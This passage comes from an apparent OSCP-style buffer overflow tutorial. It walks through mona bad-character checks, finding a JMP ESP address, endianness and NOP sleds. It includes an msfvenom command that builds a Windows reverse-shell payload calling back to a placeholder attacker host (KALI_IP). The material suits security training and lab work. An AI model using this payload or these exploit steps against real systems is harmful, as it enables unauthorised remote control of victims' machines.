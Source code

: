 ```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 019AFA30
```

Keep rinsing until the comparison results status returns `Unmodified`. This indicates that no more badchars are 
present. The results window now looks like:

| ![First run Immunity](/_static/images/overflow1b.png) |
|:--:|
| No badchars left |

## Finding the jump point

When an access violation occurs, the `ESP` register points to memory which contains the data which was sent to the 
application. JMP ESP Instruction is used to redirect the code execution to that location. To find the JMP ESP, 
use a module of mona with `–cpb` option and all the bad characters found earlier, to prevent mona returning a memory 
pointer with badchars.

With all badchars identified, to use Mona to find a jump point in the application:

```text
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

## Generate payload

Use msfvenom to create the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

## Endianness

There are two ways by which a computer stores multibyte data types like int and float, these two types are known 
as Little Endian and Big Endian. `x86` is known as Little Endian architecture. In this architecture, the last byte 
of the binary is stored first. In Big Endian, the exact opposite happens: The first byte of the binary is stored 
first. When working with `x86` architecture the JMP ESP address must be converted into Little Endian format.

When adding the return address, reverse the JMP address.

## NOP-sled

A NOP-sled (No Operation sled) is a sequence of no-operation instructions which is responsible for sliding the CPU’s execution flow to 
the next memory address. Prepending `nops` before the shellcode, it does not matter where the buffer is located. 
When the return pointer hits the NOP-sled then as the name suggests it is going to slide the return address until it 
reaches the beginning of the shellcode.
